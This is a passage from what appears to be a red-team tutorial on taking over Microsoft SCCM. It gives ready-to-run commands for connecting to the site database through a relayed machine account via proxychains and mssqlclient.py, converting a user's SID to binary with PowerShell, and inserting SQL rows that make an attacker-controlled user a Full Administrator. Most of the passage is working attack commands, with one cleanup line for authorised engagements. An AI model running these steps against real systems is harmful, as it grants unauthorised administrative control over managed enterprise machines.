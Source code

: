 Use the created SOCKS proxy with proxychains and mssqlclient.py to connect to the database as the relayed machine account.

```bash
proxychains4 -q python3 mssqlclient.py 'DOMAIN/PRIMARY_SITE_SERVER_NAME$'@<MSSQL_SERVER_IP> -windows-auth -no-pass
```

**Step 4: Grant Admin Privileges in the Database**

Execute a series of SQL queries to add an attacker-controlled user (e.g., LAB\User) as a Full Administrator.

Get SID

```powershell
Get-DomainUser <User> -Properties objectsid
```

Convert to binary

```bash
function Convert-StringSidToBinary {
    param ([string]$StringSid)
    $sid = New-Object System.Security.Principal.SecurityIdentifier $StringSid
    $binarySid = New-Object byte[] ($sid.BinaryLength)
    $sid.GetBinaryForm($binarySid, 0)
    $binarySidHex = ($binarySid | ForEach-Object { $_.ToString("X2") }) -join ''
    echo "0x$($binarySidHex.ToLower())"
}

Convert-StringSidToBinary "<SID>"
```

Add user into admins table

```sql
USE CM_<SiteCode>;
INSERT INTO RBAC_Admins (AdminSID, LogonName, IsGroup, IsDeleted, SourceSite) VALUES (<hex of convertedsid>, 'LAB\User', 0, 0, '<SiteCode>');
```

Retrieve the new adminID

```sql
SELECT AdminID, LogonName FROM RBAC_Admins;
```

Assign `Full Administrator` to yourself

```sql
INSERT INTO RBAC_ExtendedPermissions (AdminID, RoleID, ScopeID, ScopeTypeID) VALUES (<new_admin_id>, 'SMS0001R', 'SMS00ALL', '29');
INSERT INTO RBAC_ExtendedPermissions (AdminID, RoleID, ScopeID, ScopeTypeID) VALUES (<new_admin_id>, 'SMS0001R', 'SMS00001', '1');
INSERT INTO RBAC_ExtendedPermissions (AdminID, RoleID, ScopeID, ScopeTypeID) VALUES (<new_admin_id>, 'SMS0001R', 'SMS00004', '1');
```

## Cleanup Considerations
___
- Remove the user from SCCM Full Administrator upon completion of engagement
